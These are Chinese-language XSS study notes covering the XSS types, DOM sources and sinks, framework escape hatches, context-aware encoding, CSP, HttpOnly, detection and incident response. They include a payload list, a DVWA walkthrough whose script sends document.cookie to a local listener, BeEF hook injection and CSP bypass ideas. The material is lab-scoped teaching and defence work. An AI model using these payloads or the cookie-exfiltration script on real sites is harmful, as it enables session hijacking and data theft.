





# XSS 跨站脚本（Cross-Site Scripting）

> 日期：2026-11-04
> 所属大纲阶段：3. Web 安全
> 参考资料：
> - OWASP《Cross Site Scripting (XSS) Prevention Cheat Sheet》
> - OWASP《DOM based XSS Prevention Cheat Sheet》
> - PortSwigger Web Security Academy — Cross-site scripting 系列模块
> - MDN Web Docs — Content Security Policy（CSP）
> - RFC 6265bis — Cookie SameSite/HttpOnly 相关草案
> - DVWA v1.9 官方源码

---

## 0. 阅读前提与安全红线

- 读者画像：有前端/后端开发背景，熟悉 HTML/JavaScript 基本执行模型。
- **本文所有攻击 payload 与利用流程仅限本地靶场（DVWA、自建测试页等授权环境）使用**；对真实第三方站点注入脚本属违法行为。
- 环境：Docker 部署的 DVWA v1.9（含反射型/存储型/DOM 型三个 XSS 模块），另用本机 `python3 -m http.server 8888` 充当「接收端」。攻击者域名一律写 `attacker-lab`，指本机回环或局域网内自建监听。

---

## 1. 定义：为什么缩写是 XSS

**跨站脚本（Cross-Site Scripting, XSS）** 指攻击者诱导浏览器执行**非预期注入的 JavaScript** 的漏洞。缩写为区别于层叠样式表（Cascading Style Sheets, CSS）而写成 XSS。

本质一句话：**把用户的输入（数据）插入到了页面的 HTML/JS 代码上下文中，浏览器无法区分「官方代码」和「注入代码」，一视同仁地执行**——与 SQL 注入同构，只是注入目标从 SQL 解释器换成了浏览器 HTML 解析器/JS 引擎。

XSS 在 OWASP Top 10:2021 中归入 A03 Injection，长期是漏洞产出量第一的 Web 漏洞类型。

---

## 2. 三类 XSS：流程与典型场景

### 2.1 总览表

| 类型 | 注入位置 | 存储位置 | 触发方式 | 典型场景 |
|------|---------|---------|---------|---------|
| **存储型（Stored/Persistent XSS）** | 写入服务端 | 数据库/文件 | 任何访问者打开被污染页面即触发 | 评论区、留言板、用户昵称、工单系统 |
| **反射型（Reflected XSS）** | 请求参数 | 不存储（即时回显） | 受害者点击特制链接 | 搜索结果页、错误提示页回显输入 |
| **DOM 型（DOM-based XSS）** | 请求参数/前端数据源 | 不经过服务端 | 前端 JS 将数据写入危险位置 | 前端路由 hash、跳转参数被 `innerHTML` 使用 |

### 2.2 流程图

存储型（危害最大——一对多、无需交互诱导点击）：



反射型（一次性，需要诱导点击）：



DOM 型（服务端完全无感知，流量里看不到 payload 响应）：

```text
受害者浏览器:
  ① 打开 https://site/page#
  ② 页面自带 JS: document.write(location.hash)   ← source → sink
  ③ 脚本在渲染阶段被写入 DOM 并执行
  （服务端返回的 HTML 始终不变！WAF 在响应侧看不到任何 payload）
```

### 2.3 三类的测试与防御差异

- 反射型/存储型：payload 出现在**服务端返回的 HTML** 中 → 输出编码解决。
- DOM 型：payload 只存在于**客户端数据流**中 → 输出编码解决 + **安全编码 API**（不使用危险 sink），服务端编码对它无效。

---

## 3. 危害清单：脚本执行之后能做什么

注入的脚本运行在**目标站点的源**上，受同源策略（Same-Origin Policy, SOP）保护地获得该站点全部权限：

| 危害 | 原理 |
|------|------|
| **会话窃取（Session Hijacking）** | `document.cookie` 读取未设 HttpOnly 的会话 Cookie 重放 |
| **任意操作代替用户** | 以用户身份发请求（改邮箱、改密、下单），页面内直接构造 fetch/form |
| 键盘记录（Keylogging） | 监听 `keydown` 偷输入（密码框也拦得到） |
| **钓鱼（Phishing）** | `document.body.innerHTML` 整页替换为伪造登录框，地址栏仍是真域名 |
| **跨站请求伪造（CSRF）代理** | XSS 可携带/读取 CSRF token，绕过 CSRF 防御（联动笔记 13） |
| 蠕虫（XSS Worm） | 存储型 + 自传播代码（如 Samy 蠕虫，2005 年 MySpace 百万级传播） |
| 内网探测 | 从受害者浏览器发起对内网地址的探测（配合 CORS/CSP 缺陷） |
| 持久化控制 | 存储型 XSS 成为长期「后门」，每次访问即触发 |

---

## 4. 基本 Payload 集（仅限靶场）

```html
<!-- 最基础：script 标签（存储/反射首测） -->
<script>alert(1)</script>

<!-- 事件处理器：script 被过滤时的第二梯队 -->

<svg onload=alert(1)>
<body onload=alert(1)>
<details open ontoggle=alert(1)>
<input onfocus=alert(1) autofocus>

<!-- 标签属性内逃逸（输入被插进 value="..."） -->
" onfocus=alert(1) autofocus="
" onmouseover=alert(1) x="

<!-- JS 上下文逃逸（输入被插进 <script>var x = "...";） -->
";alert(1);"
'-alert(1)-'

<!-- a/href 协议类 -->
<a href="javascript:alert(1)">点我</a>
<iframe src="javascript:alert(1)"></iframe>

<!-- DOM 型常用（需 URL 编码后放进 hash） -->
#
```

选择逻辑：先看 payload 落在页面的**哪个上下文**（元素体/属性/JS/URL），再选对应逃逸形式——这一点在 §11 展开为方法论。

---

## 5. DOM XSS 详解：Source 与 Sink

DOM 型 XSS 的分析单位不是「参数」，而是**前端数据流**：



- **Source**：一切攻击者可控制的浏览器侧数据入口。
- **Sink**：会把字符串当作 **HTML 代码**或 **JS 代码**执行的 API。

### 5.1 常见 Source 清单

| Source | 说明 |
|--------|------|
| `location.hash` | URL `#` 后部分，不发给服务端 → DOM XSS 最爱，WAF 盲区 |
| `location.search` | 查询串 `?a=b` |
| `document.URL` / `document.documentURI` | 完整 URL（部分解码） |
| `document.referrer` | 来源页 URL（可被他站控制） |
| `document.cookie` | 非 HttpOnly Cookie |
| `window.name` | 跨页面跳转仍保留的窗口属性 |
| `postMessage` data | 跨窗口消息（未校验 origin 时） |
| `localStorage` / `sessionStorage` | 若其中内容可被污染（二阶 DOM XSS） |

### 5.2 常见 Sink 清单

| Sink | 危险原因 |
|------|---------|
| `element.innerHTML` / `outerHTML` | 字符串按 HTML 解析，`` 即活 |
| `document.write()` / `document.writeln()` | 写入文档流，同样按 HTML 解析 |
| `eval()` / `new Function(str)` | 字符串按 JS 执行 |
| `setTimeout("code", t)` / `setInterval("code", t)` | 字符串参数按 JS 执行 |
| `element.setAttribute('src'/'href', ...)` | 可写入 `javascript:` 协议 |
| `jQuery $(html)` / `.html()` / `.append(str)` | jQuery 老版本还会自动执行 script |
| `location = url` / `location.assign(url)` | `javascript:` 伪协议跳转 |
| `script.src = url` / `iframe.src = url` | 动态加载可控脚本 |

### 5.3 经典漏洞样例（自建靶场页）

```html
<!-- 漏洞页 dom.html：自建本地测试环境 -->
<div id="output"></div>
<script>
  document.getElementById('output').innerHTML =
      decodeURIComponent(location.hash.slice(1));   // source → sink，未净化
</script>
<!-- 访问 http://localhost:8000/dom.html#%3Cimg%20src=x%20onerror=alert(1)%3E 触发 -->
```

修复有两条路：换成不解析 HTML 的 `textContent`；或必须渲染富文本时经 DOMPurify 净化（见 §12）。

---

## 6. 现代框架下的 XSS

### 6.1 React / Vue 的默认转义

```jsx
// React：JSX 插值默认按 HTML 实体转义，安全
const bio = user.bio;               // 即使含 <script> 也只会当纯文本显示
<div>{bio}</div>

// 危险逃生舱：dangerouslySetInnerHTML —— 名字就在警告你
<div dangerouslySetInnerHTML={{ __html: user.bio }} />   // 需先 sanitize

// href 注入：javascript: 协议
<a href={userUrl}>link</a>          // userUrl="javascript:alert(1)" 仍可触发
// React 16+ 对 javascript: URL 会告警，但默认不阻断，仍需自行白名单校验协议
```

```html
<!-- Vue：插值 {{ }} 默认转义，安全 -->
<span>{{ bio }}</span>

<!-- 逃生舱 v-html：等价于 innerHTML -->
<div v-html="userBio"></div>        <!-- 需 sanitize -->
```

### 6.2 框架时代的新规律

- 漏洞不再出现在普通插值，而集中在三类**逃生舱**：`dangerouslySetInnerHTML` / `v-html` / `innerHTML`、动态 `href`/`src`（协议校验缺失）、与老库（jQuery 插件）混用。
- 服务端渲染（SSR）+ 插值同样默认转义；但**手动拼 HTML 字符串再返回**的接口是高频事故点。
- `href="javascript:..."` 类：正确做法是协议白名单（只允许 `http/https/mailto` 或相对路径）。

---

## 7. 存储型 XSS 实战（DVWA Stored XSS Low + Cookie 窃取演示流程）

环境：Docker 部署的 DVWA v1.9，安全级别 Low，模块 `/vulnerabilities/xss_s/`（留言板）。

Low 级漏洞源码（节选）：

```php
// DVWA v1.9 vulnerabilities/xss_s/source/low.php
$message = $_POST['mtxMessage'];
$name    = $_POST['txtName'];
$query   = "INSERT INTO guestbook (comment, name) VALUES ('$message','$name');";
// 无任何输出编码：回显页面直接 echo 数据库内容
```

### 7.1 第一步：确认回显与存储

1. Message 提交 `hello`，刷新页面仍在 → 输入被存储并回显。
2. Name 输入框有 `maxlength="10"` 前端限制 → 用 Burp 拦改包或开发者工具删除该属性（前端校验不构成防御）。

### 7.2 第二步：注入验证

Message 提交：

```html
<script>alert(1)</script>
```

刷新页面，弹窗出现 → 存储型 XSS 成立（此后每个访问者都会触发）。

### 7.3 第三步：Cookie 窃取演示（完整流程，仅限本机靶场）

接收端（攻击者侧，本机）：

```bash
mkdir -p /tmp/xsslab && cd /tmp/xsslab
echo ok > ok.txt
python3 -m http.server 8888      # 访问日志默认打到控制台（stderr），不写日志文件
# 控制台即可看到 ?c=... 的 Cookie；需要留存文件时改为：
# python3 -m http.server 8888 2>&1 | tee hits.log
```

注入的留言（注意：如果 DVWA 的 session cookie 恰好设置了 HttpOnly，这条会偷不到——正好用来验证 §8；可在 php.ini 把 `session.cookie_httponly` 设为 0/1 做对照实验）：

```html
<script>
new Image().src='http://127.0.0.1:8888/log?c='+encodeURIComponent(document.cookie);
</script>
```

流程验证：

```text
① 以管理员身份提交上述留言（存储）
② 退出登录，换一个浏览器/隐身窗口以普通用户登录
③ 该用户访问留言板 → 脚本在其会话中执行
④ 接收端日志出现: GET /log?c=PHPSESSID%3Dxxxx... 
⑤ 把该 PHPSESSID 换入自己的 Cookie → 重放即冒充该用户（会话劫持）
```

### 7.4 Medium/High 的防御与绕过思路（对照审计）

DVWA 该模块的级别差异（代码审计视角）：

- Medium（对照官方源码）：**Message 字段较严**——`strip_tags` + `addslashes` + `mysqli_real_escape_string` + `htmlspecialchars` 层层加固，基本封死；**Name 字段较松**——仅 `str_replace('<script>','')` + `mysqli_real_escape_string`（黑名单）→ 绕过点在 Name：用 Burp 改包突破 `maxlength` 前端限制后提交 ``（或 `<script>` 双写 `<scr<script>ipt>` 穿过替换）。
- High：对 message 用 `htmlspecialchars()` → 输出编码正确，message 面基本封死；但 Name 侧只做了部分过滤 → 绕过点转移（``）。
- Impossible：name 与 message **全部** `htmlspecialchars()`，输出编码贯彻到底 → 标准答案。

结论：黑名单替换永远打补丁式失败；**输出编码全覆盖**才是正解。

---

## 8. BeEF 工具简介

**BeEF（Browser Exploitation Framework）** 是以 XSS hook 为核心的浏览器攻击框架，用于授权渗透测试中量化 XSS 危害。



使用要点（仅靶场）：

```bash
# 安装（官方仓库或 docker）
git clone https://github.com/beefproject/beef && cd beef && ./install
./beef        # 默认控制台 http://127.0.0.1:3000/ui/panel
```

- 把 `http://<beef-host>:3000/hook.js` 注入靶场 XSS 点（如 DVWA 留言板）；
- 受害浏览器（另一台本地浏览器/容器）执行后上线，面板中即为「注入脚本到底能干什么」的可视化清单；
- 蓝队视角：hook.js 的轮询特征（周期性 POST `/hook`）是很好的检测素材。

---

## 9. HttpOnly：作用与局限

`HttpOnly` 是 Cookie 属性（Set-Cookie 响应头），**禁止 JavaScript 通过 `document.cookie` 读取该 Cookie**：

```http
Set-Cookie: PHPSESSID=abc; HttpOnly; Secure; SameSite=Lax
```

| 能力 | 无 HttpOnly | 有 HttpOnly |
|------|-------------|-------------|
| XSS 读取 Cookie 值 | 可以 | **不可以** |
| 浏览器自动带 Cookie 发请求 | 可以 | 可以（HttpOnly 不影响发送） |

**局限（重点）**：

1. **只防「偷 Cookie」这一种危害**。注入脚本仍在页面内运行：可代替用户发请求（页内 fetch 自动带 Cookie）、改密码、钓鱼整页替换、键盘记录——统统不受 HttpOnly 影响。
2. **对 DOM XSS 的其他危害同样无能为力**——它防的是「DOM XSS 读取 Cookie」，不是「DOM XSS 本身」。
3. 攻击者可以在浏览器内直接「借用」会话发起请求（CSRF 式操纵），无需拿到 Cookie 明文。
4. 部分历史漏洞曾允许绕过（如旧版本 PHP 的 `php://filter` session 泄露、Apache httpOnly 泄露 CVE），属性并非绝对保险。

结论：HttpOnly 是**纵深防御**（标配但不够），必须配合输出编码与 CSP。配合 `Secure`（仅 HTTPS 传输）与 `SameSite`（见笔记 13）构成 Cookie 三件套。

---

## 10. CSP 详解

**内容安全策略（Content Security Policy, CSP）** 是浏览器执行的**响应头声明的资源加载白名单**，核心思想：即使注入了脚本，只要它不在白名单内就**不执行**——把「不注入」的防御延伸为「注入了也不跑」。

### 10.1 指令语法

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://cdn.example.com 'nonce-r4nd0m';
  style-src 'self' 'unsafe-inline';
  img-src * data:;
  object-src 'none';
  base-uri 'self';
  frame-ancestors 'none';
  report-uri /csp-report
```

常用指令速查：

| 指令 | 控制对象 |
|------|---------|
| `default-src` | 兜底默认策略 |
| `script-src` | JS 来源（CSP 的主战场） |
| `style-src` / `img-src` / `font-src` / `connect-src` | 样式/图片/字体/fetch(XHR/WebSocket) 目标 |
| `frame-ancestors` | 谁能 iframe 本页（抗点击劫持） |
| `object-src` / `base-uri` / `form-action` | 插件对象 / `<base>` / 表单提交目标 |

来源关键字：`'self'`（同源）、`'none'`（全禁）、`'unsafe-inline'`（允许内联——等于对内联脚本自废武功）、`'unsafe-eval'`（允许 eval）、`'nonce-xxx'`（允许带匹配 nonce 的内联块）、`'strict-dynamic'`（由受信脚本动态加载的脚本自动可信）。

### 10.2 nonce 与严格模式（现代推荐姿势）

```http
Content-Security-Policy: script-src 'nonce-RANDOM' 'strict-dynamic'; ...
```

```html
<script nonce="RANDOM">/* 服务端每次响应生成随机 nonce 并同时写入头与标签 */</script>
```

- **nonce**：只有携带本次响应随机 nonce 的内联脚本可执行，攻击者注入的 `<script>` 拿不到 nonce。
- **strict-dynamic**：受信任脚本再加载的脚本是可信的，允许现代打包器/加载器工作，同时废掉白名单 URL 列表被「合法 CDN 域名上的用户内容」滥用的问题。
- 先用 `Content-Security-Policy-Report-Only` 上报观察，再切强制模式，避免误伤业务。

### 10.3 常见错误配置

| 错误 | 后果 |
|------|------|
| `script-src 'unsafe-inline'` | 内联脚本全放行，CSP 对 XSS 基本失效 |
| `script-src *` | 形同虚设 |
| 允许 `cdn.example.com`，而该域存在用户可上传内容/JSONP | 攻击者借「合法域」上的可控脚本绕过 |
| 允许 `*.example.com`，某个子域有开放上传或可被接管 | 同上（子域信任扩大化） |
| 只设置 `default-src` 未覆盖 `base-uri`/`object-src` | `<base>` 劫持等旁路 |
| `report-uri` 指向跨域且未做权限控制 | 报告可被污染/伪造 |

### 10.4 CSP 绕过思路（了解攻防演进，仅授权测试）

- 任何被允许域上的 **JSONP 端点**（回调名可控 → 变成「合法来源的任意 JS」）；
- 允许域上的**开源库参数化加载**（如旧版 Angular 的模板注入、`querySelector` 类 gadget）；
- 非 script-src 面：`base-uri` 未锁 → `<base href="https://evil-lab/">` 劫持相对脚本；
- dangling markup / 资源加载型数据外传（img-src 过宽时）。
- 结论：CSP 是**纵深**而非替代编码；`strict-dynamic` + nonce + 收紧 connect-src/img-src 才是现代基线。

---

## 11. 输入过滤绕过概览——为什么黑名单必败

理解绕过不是为了攻击，而是理解**黑名单在设计上不可能收敛**：

| 过滤手法 | 绕过形态 | 教训 |
|---------|---------|------|
| 过滤 `<script>` | `<ScRiPt>`、`<scr<script>ipt>`（双写穿过 str_replace）、`` 换标签 | 大小写/递归替换/标签等价物无穷 |
| 过滤 `alert` | `confirm(1)`、`window['al'+'ert'](1)`、`eval(atob('...'))` | 危险的是语言本身，不是函数名 |
| 过滤引号 | 反引号、`String.fromCharCode(...)` | 语法糖等价物 |
| HTML 实体解码后过滤 | `&#60;script&#62;` 二次解码（存储→回显→JS 再解码） | 多重上下文解码顺序（见 §12） |
| 只编码 `<` `>` | 属性内 `onerror=` 仍可逃逸（不需要新标签） | 编码必须对齐上下文 |

**结论**：输入侧「过滤」永远在追赶；输出侧「按上下文编码」与框架默认转义才是结构性解法；黑名单最多作为纵深（WAF）。

---

## 12. 编码函数正确用法：按上下文选型

**没有万能转义**。同一个 payload 字符串在「元素体」「属性值」「JS 字符串」「URL」里需要的编码完全不同。这就是 OWASP 强调的**上下文感知输出编码（Context-Aware Output Encoding）**。

### 12.1 上下文 → 编码对照表

| 输出位置 | 示例 | 正确编码 | 要点 |
|---------|------|---------|------|
| HTML 元素内容 | `<div>{data}</div>` | HTML 实体（`& < > " '` 全套） | 常规最安全位置 |
| HTML 属性值（引号内） | `<input value="{data}">` | HTML 实体（必须含引号编码） | 属性**必须用双引号包裹**，未加引号=属性逃逸 |
| `<script>` 内 JS 字符串 | `var x = "{data}"` | JS 编码：`\xHH` / `\uXXXX`，仅编码引号/backslash 也可 | 还要防止 `</script>` 提前闭合（序列 `\x3C/script` 或 JSON + escape） |
| HTML 内联事件/内联 JS 属性 | `<div onclick="f('{data}')">` | **先 JS 编码再 HTML 实体**（双重） | 浏览器先解 HTML 属性再交给 JS 引擎 |
| URL 上下文 | `<a href="{data}">` | URL 编码 + **协议白名单校验** | 光编码防不住 `javascript:`（编码后仍是合法伪协议调用） |
| CSS 上下文 | `style="color:{data}"` | 尽量不用用户输入进 CSS；必要时 CSS 转义 `\HHHHHH` | `expression()` 历史 + url() 外链 |
| `<style>` 内联 | 同上 | 同上 | 新式 `CSS.escape` 只适用于标识符 |

### 12.2 各语言/框架编码 API

```text
Java      OWASP Java Encoder Encode.forHtml / forHtmlAttribute / forJavaScript
          或 JSP <c:out>（默认 HTML）
Python    html.escape(data, quote=True)            # HTML 上下文
          json.dumps(obj) 输出到 <script> 时确保转义 / 或模板自动转义（Jinja2 autoescape）
PHP       htmlspecialchars($v, ENT_QUOTES, 'UTF-8') # ENT_QUOTES 必须带
Node/EJS  <%= %> 自动转义 / <%- %> 是危险出口
React/Vue 插值默认转义；后端拼 HTML 用 xss/DOMPurify 库净化
前端 DOM  textContent（而不是 innerHTML）；
          必须富文本 → DOMPurify.sanitize(html)
```

### 12.3 一个双重编码的例子

```html
<!-- 服务端模板把用户数据 data 插进 onclick 属性，设 data = ');alert(1);'
     双重编码分步标注（方案：先 JS 编码，再整体按 HTML 属性输出）：
     ① 原始数据:   ');alert(1);'
     ② JS 编码:    \x27);alert(1);\x27    （' → \x27，JS 层无法再逃逸出字符串）
     ③ 属性输出:   外层属性用双引号包裹；② 的产物已不含 & " < > 等特殊字符，
                   属性层无额外实体化项（若② 产物仍含这些字符，此层必须再做 HTML 实体编码） -->
<div onclick="say('\x27);alert(1);\x27')"></div>
```

顺序错了（只做一层）就出漏洞：这是 XSS 与编码问题里最高频的事故形态，**输出到内联事件属性原则上禁止**（改为 data-* + addEventListener 代码分离）。

---

## 13. 防御专章（重点）

防御金字塔（与笔记 11 同构）：



### 13.1 输出编码为主（治本）

- 模板引擎开自动转义（Jinja2 `autoescape=True`、Twig on、Blade `{{ }}`、EJS `<%= %>`）。
- 编码函数按 §12.1 表对齐上下文；**审计时先画出每个数据落点属于哪一行**。
- 富文本需求（编辑器）不接受「编码」，必须**净化**：服务端 DOMPurify（jsdom 环境）/ sanitize-html，白名单标签+属性，禁 `script/iframe/on*` 与 `javascript:`。

### 13.2 框架默认防护 + 逃生舱清单

- React/Vue/主流模板默认转义 → 安全面很大；同时建立 Lint/代码审查规则禁用逃生舱：
  `dangerouslySetInnerHTML`、`v-html`、`innerHTML`、`document.write`、`eval`、`new Function`、`href={v}` 未校验协议。

### 13.3 Cookie 三件套

```http
Set-Cookie: SESSION=xxx; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=3600
```

- `HttpOnly` 阻断偷 Cookie（§9）；`Secure` 限 HTTPS；`SameSite=Lax` 顺带削弱 CSRF 与部分 XSS 数据外带（详见笔记 13）。

### 13.4 CSP 纵深

- 基线：`default-src 'self'`；脚本走 nonce + `strict-dynamic`；`frame-ancestors` 防劫持；`object-src 'none'`；`base-uri 'self'`。
- 先 `Report-Only` 观察再强制；上报接入告警（注入尝试会体现在 CSP violation 报告里，兼做检测）。

### 13.5 其他工程措施

- 输入侧长度/格式校验（降噪而非根治）；
- 敏感操作二次验证（改密/支付），压缩 XSS 的变现空间；
- 子域隔离：把「用户可上传 HTML 的域」与主站 cookie 域分离，避免同源连带；
- 上传文件以 `Content-Disposition: attachment` 或独立静态域提供（联动笔记 14）。

### 13.6 防御检查清单

- [ ] 所有模板输出点确认自动转义开启；列举全部「关闭转义」的位置并逐一确认安全
- [ ] `innerHTML`/`document.write`/`eval`/`setTimeout(str)` 全局搜一遍，替换 `textContent`/回调函数
- [ ] 富文本入口统一走 DOMPurify 白名单净化
- [ ] `href`/`src` 动态值做协议白名单
- [ ] Cookie 全量加 HttpOnly/Secure/SameSite
- [ ] CSP 上线（nonce + strict-dynamic），Report-Only 先行
- [ ] 前端依赖 DOMPurify/JQuery 等保持更新（净化器绕过历史 CVE 见 §14）

---

## 14. mXSS 与 CSP 的关联（进阶认知）

**变异型 XSS（Mutation XSS, mXSS）**：即使做了净化，浏览器**序列化再解析**的过程中会把「无害」结构变异成可执行结构。

- 机理举例：`<noscript>`（JS 开/关状态解析差异）、SVG/MathML 嵌套中的命名空间混淆、反引号属性的解析差异，DOMPurify 历史上多次因 mXSS 被绕过（2.0.x 系列有修复记录）；
- 启示 1：**净化器是编译器级别的攻防**，必须跟进版本（锁定最新、订阅 CVE）；
- 启示 2：净化器之后仍可能被 mXSS 击穿——这正是 CSP 存在的意义：**注入了也不执行**。两者是互补层：编码/净化解决「尽量不让它进」，CSP 解决「进了也尽量不跑」，HttpOnly 解决「跑了也偷不走 Cookie」。

---

## 15. 检测与应急

### 15.1 日志与流量特征

```text
Web 访问日志：
  GET /search?q=%3Cscript%3Ealert(1)%3C/script%3E        ← 参数含编码后标签
  大量针对同一表单字段提交 <svg/onload 等变体的请求（fuzz 特征）

存储型污染检测：
  数据库内容巡查：comment/name 字段含 <script|onerror|javascript:|<svg 等模式
  （定期对 UGC 表做 select ... like '%onerror%' 巡检）

CSP 违规报告：
  csp-report 中反复出现 script-src 违规、非白名单域
```

> 注意：hash 型 DOM XSS（如 `http://site/page#`）的 fragment（`#` 后部分）**不会随请求发送到服务端**——浏览器在发请求前就剥掉了它，服务端访问日志里最多记录到不带 fragment 的 URI（`GET /page`）。这正是 §2.2 所说「WAF 在响应侧看不到任何 payload」的原因，此类攻击的检测要靠前端侧线索（CSP violation 报告、浏览器端监控）。

### 15.2 告警规则思路

| 维度 | 规则 |
|------|------|
| 请求侧 | 参数解码后匹配 `<script`、`on\w+\s*=`、`javascript:`、`<svg`、`]+onerror` |
| 存储侧 | UGC 字段落库前/后的注入模式匹配（WAF/应用侧） |
| 响应侧 | 同一参数值回显于响应体（反射型确认） |
| 行为 | 单 IP 对单表单的高频标签 fuzz；CSP report 聚合 |

### 15.3 应急流程

```text
1. 定位类型：反射/存储/DOM（决定下线哪个入口）
2. 存储型：先清除污染数据（备份取证后删除/转义），否则页面持续触发
3. 短期缓解：WAF 拦截该注入点模式 + 输出侧临时编码（若可热更）
4. 根修：上下文输出编码/净化 + sink 替换；评估是否需临时 CSP
5. 影响评估：脚本内容是什么？若有 document.cookie 外带 → 检查接收端日志，
   评估会话泄露范围 → 强制会话重置（换 session 密钥）
6. 复盘：补自动化测试用例（payload 回归集），上线监控
```

---

## 16. 常见误区

| 误区 | 事实 |
|------|------|
| 「用了 React/Vue 就没有 XSS」 | `v-html`/`dangerouslySetInnerHTML`/动态 href 仍是注入点 |
| 「alert 没弹=没漏洞」 | payload 只是被编码/上下文不匹配，换上下文逃逸形态可成 |
| 「HttpOnly 能防 XSS」 | 只防 Cookie 读取，不防脚本执行与其余全部危害 |
| 「输入时转义一次就够」 | 不同落点需要不同编码；一次编码多处复用是典型事故源 |
| 「CSP 加了就安全」 | `unsafe-inline`、过宽白名单、JSONP gadget 都能绕过 |
| 「POST 表单的 XSS 无法利用」 | 表单自提交页面即可触发，与 GET 无本质差别 |
| 「DOM 型在服务端看不到 payload，所以不用管」 | 恰恰是 WAF 盲区，必须前端审计与安全 API 治理 |
| 「encodeURIComponent 能防 XSS」 | 它是 URL 编码，用于 URL 上下文，不是 HTML/JS 编码 |

---

## 17. 自测问题

1. 三类 XSS 的存储位置与触发链路分别是什么？DOM 型为什么在服务端响应日志里看不到 payload？
2. 给出 source/sink 各 5 个例子，并说明 `innerHTML` 为什么危险而 `textContent` 安全。
3. payload 落在 `<input value="{input}">` 与 `<script>var x="{input}"</script>` 时，分别需要什么编码/逃逸形态？
4. HttpOnly 到底拦截的是什么操作？列出三种「即使有 HttpOnly 也仍然成立」的 XSS 危害。
5. 写一份你认为安全的 CSP 头（含 nonce 与 strict-dynamic），并解释 `unsafe-inline` 为什么会使其失效。
6. `encodeURIComponent`、`html.escape`、`JSON.stringify`、DOMPurify 各自适用什么上下文？
7. mXSS 是什么？它为什么说明「净化器 + CSP」必须同时部署？
8. 存储型 XSS 应急处置与反射型有什么不同（提示：数据清理顺序）？
9. 设计题：评论区支持「加粗/斜体/超链接」三种富文本，给出你的安全实现方案（白名单净化 + 协议校验）。
10. 上机任务：在 DVWA 完成存储型 XSS + 本机接收 Cookie 全流程；再审计 High 级代码，指出 Name 与 Message 两字段防御的不对称性及其绕过面。

---

## 18. 小结

- XSS 本质 = **输入被插入代码上下文**；三类按「存储位置/触发链路」划分，防御手段因此不同。
- 主修复：**按上下文输出编码**（表见 §12.1）；DOM XSS 靠**安全 sink**（textContent / 不用 eval）。
- 框架默认转义覆盖大部分场景，审计焦点是逃生舱清单。
- 纵深：HttpOnly（偷不走）+ CSP（跑不动）+ SameSite/Secure（运不走、传不了）。
- 黑名单输入过滤在设计上必败——理解绕过，是为了不再依赖过滤。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
